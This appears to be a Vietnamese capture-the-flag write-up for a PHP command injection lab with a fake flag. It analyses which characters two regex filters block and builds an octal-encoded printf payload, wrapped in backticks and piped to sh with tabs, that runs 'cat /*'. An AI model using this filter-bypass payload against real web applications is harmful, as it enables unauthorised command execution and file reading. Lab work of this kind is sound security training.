



# Phân tích Whitebox:

| **Dòng lệnh** | **Phạm vi ký tự (Hex)** | **Ký tự cụ thể** |
| -- | -- | -- |
| `preg_replace("/[\x{20}-\x{29}\x{2f}]/","",$input)` | `\x{20}` → `\x{29}` và`\x{2f}` | Khoảng trắng ( ) &#10;Dấu chấm than (`!`) &#10;Dấu ngoặc kép (`"`) &#10;Dấu thăng (`#`) &#10;Dấu đô la (`$`) &#10;Dấu phần trăm (`%`) &#10;Dấu và (`&`) &#10;Dấu nháy đơn (`'`) &#10;Dấu ngoặc đơn mở/đóng (`(`, `)`) &#10;Dấu gạch chéo (`/`) |
| `preg_replace("/[\x{3b}-\x{40}]/","",$input)` | `\x{3b}` → `\x{40}` | Dấu chấm phẩy (`;`) &#10;Dấu nhỏ hơn (`<`) &#10;Dấu bằng (`=`) &#10;Dấu lớn hơn (`>`)&#10;Dấu hỏi (`?`) &#10;Dấu @ (`@`) |

* Vẫn còn dấu `` ` `` chưa được lọc
* Dùng `<tab>` thay vì `<space>` vì space bị chặn
* Dùng được dấu `*` để cat `*`
* Dấu `|` không bị chặn → có thể dùng để chạy lệnh liên tiếp
* Tận dụng các cơ chế biên dịch (Hex/Octal)

# Build Payload:

* Do hầu hết đều bị chặn nên chỉ còn một cách đó là tận dụng cơ chế biên dịch Octal của unix command. Lệnh mà ta cần đó là `cat /*`

| Octal | Ký tự | Giải thích |
| -- | -- | -- |
| `\143` | `c` | Chữ cái `c` |
| `\141` | `a` | Chữ cái `a` |
| `\164` | `t` | Chữ cái `t` |
| `\040` | (khoảng trắng) | Dấu cách |
| `\057` | `/` | Dấu gạch chéo |
| `\052` | `*` | Dấu sao |

→ Từ đó em build ra được lệnh và đã đọc được flag thành công khi ở trong docker: 

```bash
root@18d43a179255:/var/www/html# `printf \\\143\\\141\\\164\\\040\\\057\\\052`
🥷: You are master of Command Injection now! CBJS{FAKE_FLAG_FAKE_FLAG}
```

Nhưng trên payload trên Caido chỉ có 2 dấu `\\` là vì ở backend đã có sẵn hàm `addslashes()` tự động thêm 1 dấu `\` khi thấy `\`.

→ Vậy pipeline xây payload là:

1. dùng: `printf \\143\\141\\164\\040\\057\\052` → `cat /*`
2. thay `<space>` → `<tab>`
3. bọc đọc cặp backtick `` ` ` `` để thực thi bên trong `"Hello $username"` -> `` "Hello `id`" ``
4. gắn `| sh` để execute `` ` ` `` bên trong `" "` (mặc định nó sẽ không execute nếu không yêu cầu thực thi





→ Vậy payload cuối cùng sẽ là:

```bash
`printf  \\143\\141\\164\\040\\057\\052	|	sh`
```


